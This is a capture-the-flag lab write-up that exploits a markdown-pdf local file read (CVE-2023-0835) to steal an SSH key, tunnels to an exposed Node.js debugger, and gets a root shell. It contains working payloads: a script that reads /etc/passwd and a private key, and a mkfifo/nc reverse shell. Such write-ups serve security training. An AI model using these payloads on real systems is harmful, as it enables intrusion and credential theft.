



# Markers f.k.a. CTF-200-03 (rough notes)

> This one was rated "very hard" by the community... so we'll see how it goes...

Initial port scan:

```
┌──(kali㉿kali)-[~/offsec/ctf-200-03]
└─$ nmap -v -Pn -p- -T4 ctf-200-03  
...

PORT     STATE SERVICE
22/tcp   open  ssh
3000/tcp open  ppp
```

Because I don't know what will be thrown at me, I opt to also do a UDP scan for the top 100 common ports:

```
┌──(kali㉿kali)-[~/offsec/ctf-200-03]
└─$ sudo nmap -v -sU -T4 --top-ports 100 ctf-200-03
           (...no hits...)
```

More thorough service fingerprinting scan:

```
┌──(kali㉿kali)-[~/offsec/ctf-200-03]
└─$ nmap -v -Pn -p 22,3000 -T4 -A ctf-200-03
...

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 62:36:1a:5c:d3:e3:7b:e1:70:f8:a3:b3:1c:4c:24:38 (RSA)
|   256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)
|_  256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)
3000/tcp open  http    Node.js (Express middleware)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Markdown to PDF Converter
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Mkay... nothing pops out. We'll enumerate paths on the http server while we check it out in the browser.

```
┌──(kali㉿kali)-[~/offsec/ctf-200-03]
└─$ gobuster dir -u http://ctf-200-03:3000/ -t 20 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://ctf-200-03:3000/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

(path enumeration found nothing)



The source of this page also reveals nothing... Its time to try to break it.

Pressing the "Convert" button without uploading a file reveals some errors...

```
TypeError: Cannot read property 'path' of undefined
    at app.post (/opt/src/app.js:49:29)
    at Layer.handle [as handle_request] (/opt/src/node_modules/express/lib/router/layer.js:95:5)
    at next (/opt/src/node_modules/express/lib/router/route.js:144:13)
    at done (/opt/src/node_modules/multer/lib/make-middleware.js:45:7)
    at indicateDone (/opt/src/node_modules/multer/lib/make-middleware.js:49:68)
    at Multipart.<anonymous> (/opt/src/node_modules/multer/lib/make-middleware.js:166:7)
    at Multipart.emit (events.js:198:13)
    at emitCloseNT (internal/streams/destroy.js:68:8)
    at process._tickCallback (internal/process/next_tick.js:63:19)
```

Giving it a real markdown file reveals some more information about what's under the hood:


Note the title "markdown-pdf 11.0.0".

Exploit-db returns no hits, but the internet does:

- [https://fluidattacks.com/advisories/relsb/](https://fluidattacks.com/advisories/relsb/)
- [https://github.com/advisories/GHSA-qghr-877h-f9jh](https://github.com/advisories/GHSA-qghr-877h-f9jh)
- [https://nvd.nist.gov/vuln/detail/CVE-2023-0835](https://nvd.nist.gov/vuln/detail/CVE-2023-0835)
- [https://security.snyk.io/vuln/SNYK-JS-MARKDOWNPDF-5411358](https://security.snyk.io/vuln/SNYK-JS-MARKDOWNPDF-5411358)

There seems to be a local file read vulnerability with this software. If we craft a markdown file to read files on the victim file system we should be able to learn more... and maybe even get the software to run a reverse shell for us.

We create exploit.md with the contents as per the poc in the Snyk link above:

```
<script>
    // Path Disclosure
    document.write(window.location);
    // Arbitrary Local File Read
    xhr = new XMLHttpRequest;
    xhr.onload=function(){document.write((this.responseText))};
    xhr.open("GET","file:///etc/passwd");
    xhr.send();
</script>
```

We upload the file directly on the web UI. The results confirm the vulnerability is present:



It worked! Not only that but we learned about user `sau` -- the only user with a home directory. We can try to get their SSH key. I note that their shell is `/usr/sbin/nologin` which is unfortunate. This means we don't be able to get a shell when we log in, but maybe we can still set up a SOCKS proxy to scan localhost on the remote machine see if theres anything else serving that we can abuse.

Let's not get ahead of ourselves and see if we can get an ssh key from `/home/sau/.ssh/id_rsa`.

I write my exploit into `cat-home-sau-ssh-id_rsa.md`:

```
<script>
    // Path Disclosure
    document.write(window.location);
    // Arbitrary Local File Read
    xhr = new XMLHttpRequest;
    xhr.onload=function(){document.write((this.responseText))};
    xhr.open("GET","file:///home/sau/.ssh/id_rsa");
    xhr.send();
</script>
```

After uploading it through the web ui we get the resultant pdf:



Trying to use that key to ssh into the box as `sau` yields the expected results (account not available):

```
┌──(kali㉿kali)-[~/offsec/ctf-200-03/files]
└─$ ssh sau@ctf-200-03 -i id_rsa

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

This account is currently not available.
Connection to ctf-200-03 closed.
``` 

So we will try to set up a SOCKS proxy using the key...

```
┌──(kali㉿kali)-[~/offsec/ctf-200-03/files]
└─$ ssh -i id_rsa -N -D localhost:1080 sau@ctf-200-03 
          (... hanging ...)
```

> -N indicates to ssh that no remote commands will be executed
> 
> -D will set up local "dynamic" application-level port forwarding. This means that it sets up a SOCKS proxy server on the local machine. When you specify -D [bind_address:]port, SSH listens on the specified local port and forwards all the connections through the SSH server. 

And we run `nmap` through `proxychains`. We first need to modify the `/etc/proxychains.conf` (or `/etc/proxychains4.conf` if using `proxychains4`) to include our new SOCKS5 proxy:

```
[ProxyList]
# ... your other proxy configurations here

socks5 127.0.0.1 1080 # CTF-200-03
```

Then we run nmap through proxychains:

```
┌──(kali㉿kali)-[~/offsec/ctf-200-03/files]
└─$ proxychains -q nmap -v -p- -T5 127.0.0.1
...

PORT     STATE SERVICE
22/tcp   open  ssh
1313/tcp open  bmc_patroldb
3000/tcp open  ppp
```

> Note: this takes a LOOOONG time to run...

More thorough scan (service version fingerprinting) on that new port we didn't know about (1313).

```
┌──(kali㉿kali)-[~/offsec/ctf-200-03/files]
└─$ proxychains -q nmap -v -p 1313 -T4 -A 127.0.0.1
...

PORT     STATE SERVICE       VERSION
1313/tcp open  bmc_patroldb?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, Help, Kerberos, RPCCheck, RTSPRequest, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/html; charset=UTF-8
|_    WebSockets request was expected
```

This "WebSockets request was expected" is interesting...

I'll set up a single port forwarding session so that we can navigate to that server on our local machine (through an ssh tunnel under the hood).


```
┌──(kali㉿kali)-[~/offsec/ctf-200-03/files]
└─$ ssh -i id_rsa -N -L 8080:127.0.0.1:1313 sau@ctf-200-03
          (... hanging ...)
```

Looking at the server on the browser:


Okay... time to get myself a websockets client. I installed a websocket client Firefox add-on: https://addons.mozilla.org/en-CA/firefox/addon/simple-websocket-client/


Connecting to the websocket with that just pops up an error "undefined".

I tried a couple other firefox extensions for websocket clients, and none worked.

Next I look at websocat, a command line client.

```
┌──(kali㉿kali)-[~/offsec/ctf-200-03/files]
└─$ websocat -v ws://localhost:8080
[INFO  websocat::lints] Auto-inserting the line mode
[INFO  websocat::stdio_threaded_peer] get_stdio_peer (threaded)
[INFO  websocat::ws_client_peer] get_ws_client_peer
websocat: WebSocketError: WebSocketError: Received unexpected status code (400 Bad Request)
websocat: error running
```

That didn't work either... at this point I'm out of ideas.

We did see in that error when uploading a bad markdown file to markdown-to-pdf converter that the machine was running nodeJS...

Maybe this websocket is a [node debugger websocket](https://nodejs.org/en/learn/getting-started/debugging), we'll try connecting.

OMG THAT WORKED!

```
┌──(kali㉿kali)-[~/offsec/ctf-200-03/files]
└─$ node inspect localhost:8080               
connecting to localhost:8080 ... ok
Break on start in /opt/src/app.js:1
> 1 const ejs = require('ejs');
  2 const express = require('express');
  3 const multer = require('multer');
debug> 
```

Hacktricks has [a whole page](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse) on how to abuse this debugger, including getting it to execute commands:

```
exec("process.mainModule.require('child_process').exec('/Applications/iTerm.app/Contents/MacOS/iTerm2')")
```

I write out my reverse shell code:

```
exec("process.mainModule.require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.172 4242 >/tmp/f')")
```

I set up my local listener on port 4242, where we expect to catch the shell, and fire the exec instruction on the debugger.

```
debug> exec("process.mainModule.require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.172 4242 >/tmp/f')")
{ _events: Object,
  _eventsCount: 2,
  _maxListeners: 'undefined',
  _closesNeeded: 3,
  _closesGot: 0,
  ... }
debug>
```

I am happy to see a shell as root in my local listener!

```
┌──(kali㉿kali)-[~/offsec/ctf-200-03/files]
└─$ nc -lvnp 4242                             
listening on [any] 4242 ...
connect to [192.168.45.172] from (UNKNOWN) [192.168.176.34] 46764
sh: 0: can't access tty; job control turned off
# whoami
root
```

I collect my flags (both access and root).

```
# cat /home/sau/local.txt
c0f47871753b007835de57de69c999e6
# cat /root/proof.txt
b444a92bcda6e661dcffdab0dc9649c6
```

> Note: I could've gotten the access flag earlier when we found the local file inclusion bug in the markdown to pdf converter.

